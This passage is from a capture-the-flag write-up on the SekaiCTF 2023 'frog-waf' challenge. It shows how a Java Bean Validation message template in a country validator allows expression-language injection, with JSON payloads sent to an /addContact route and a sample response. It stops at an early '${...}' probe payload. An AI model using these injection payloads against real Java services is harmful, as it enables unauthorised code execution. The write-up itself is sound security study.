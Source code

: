 **CountryValidator Summary**
* We get our WAF validation (we will check it later).
* We took a lot of time to find the first attack point, but [Regne](https://twitter.com/_regne) found it.

The vulnerable code is the line below:

```java
constraintContext.buildConstraintViolationWithTemplate(message).addConstraintViolation();
```
The [buildConstraintViolationWithTemplate](https://docs.jboss.org/hibernate/stable/validator/api/org/hibernate/validator/constraintvalidation/HibernateConstraintValidatorContext.html#buildConstraintViolationWithTemplate(java.lang.String)) method processes Java EL. Since we can control part of the message variable, it is basically a [Template Injection](https://codeql.github.com/codeql-query-help/java/java-insecure-bean-validation/) for us.

### Payload - The Basics

To make it simpler, let's make some valid Payloads, except for the Country, which is our attack surface.

I don't remember how we got that `message` was a variable interpreted in the EL.
Let's test some payloads on `/addContact` route.

- Payload
```json
{
    "firstName":"Hey",
    "lastName":"You",
    "description":"Abc",
    "country":"{message}"
}
```

- Response:
```json
{
    "violations": [
        {
            "fieldName": "country",
            "message": "Invalid country is not a valid country"
        }
    ]
}
```

`Invalid country` is the default return value of the [`message`](https://github.com/Neptunians/sekai-ctf-2023-web-writeup/blob/42289630c7c3e803c40675e8463dbd17baed6e23/web-frog-waf/source/src/main/java/com/sekai/app/controller/contact/CheckCountry.java#L21) method on the [CheckCountry.java](https://github.com/Neptunians/sekai-ctf-2023-web-writeup/blob/main/web-frog-waf/source/src/main/java/com/sekai/app/controller/contact/CheckCountry.java) interface.

By using the dollar sign, we start to play better games using our `message` variable.

- Payload
```json
{
    "firstName":"Hey",
    "lastName":"You",
    "description":"Abc",
    "country":"${message.getClass().toString()}"
}
```
